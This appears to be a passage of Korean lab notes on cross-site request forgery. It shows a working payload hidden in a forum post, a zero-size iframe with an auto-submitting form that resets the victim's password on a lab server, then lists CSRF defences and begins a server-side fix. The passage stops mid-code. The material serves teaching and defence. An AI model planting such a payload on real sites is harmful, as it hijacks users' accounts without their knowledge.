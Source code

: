   - 글내용 작성 및 비밀번호 변경

    ```
    웹사이트 에 로그인이 되지 않습니다 확인 부탁 드립니다 
    <iframe name="i" width="0" height="0"></iframe>
    <form id="hack" target="i" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="777777" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="777777" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    ![화면 캡처 2022-10-28 195103](../../assets/img/화면 캡처 2022-10-28 195103.png)

    ![화면 캡처 2022-10-28 195119](../../assets/img/화면 캡처 2022-10-28 195119.png)

#### CSRF 보안

- 동일-출처 정책
  - 요청메시지가 서비스를 처리하는 현재 웹 서버의 페이지로부터 발생한 것인지 확인

- Referer
  - HTTP Message Header의 Referer필드 값을 통해 요청을 발생시킨 주소를 확인 함
  - Proxy등을 통해 우회 가능성이 있음
- Anti-Forgery Token
  - Referer값의 변조 가능성을 피하기 위해 임의의 값을 Form에 할당하여 요청에 포함 시킴
- 재인증
  - 중요한 정보를 처리하는 기능은 재 인증을 통해 처리되도록 함 
  - One Time Token
- 사용자 보안
  - 사이트 이용 후 반드시 로그아웃을 함

#### 실습

- paros를 이용하여 분석

  - 회원정보 변경시 그 정보가 어디서 넘어와야하는지 분석

    ![화면 캡처 2022-10-28 200626](../../assets/img/화면 캡처 2022-10-28 200626-1666960871606-73.png)

- php 수정

  - member_info.php 외에 다른 곳에서 오는 변경요청은 코드를 추가하여 차단

    ```
    # vim /var/www/html/member/member_info_change.php
    
    <?php                 
    				session_start();
                    require "../dbconn.php";
      